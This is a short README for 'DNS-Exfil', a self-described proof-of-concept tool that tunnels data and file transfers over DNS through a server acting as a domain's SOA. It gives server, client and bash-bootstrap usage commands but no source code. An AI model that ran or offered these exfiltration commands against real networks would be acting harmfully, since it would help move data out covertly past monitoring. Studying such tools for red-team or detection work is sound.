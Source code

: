 # DNS-Exfil
PoC DNS exfiltration tool with bash bootstrap and file transfer functions<br>
<br>
the dns tunnel server is intended to run on a server which can be the<br>
the SOA for a domain or subdomain.<br>
<br>
on the server:<br>
# python dnstun.py --domain [SOA record name]<br>
<br>
on the client:<br>
$ ./client -s [SOA record name]<br>
<br>
downloading a file name "test" from the server using the bash bootstrapper<br>
./bootstrap_file_transfer.sh test<br>

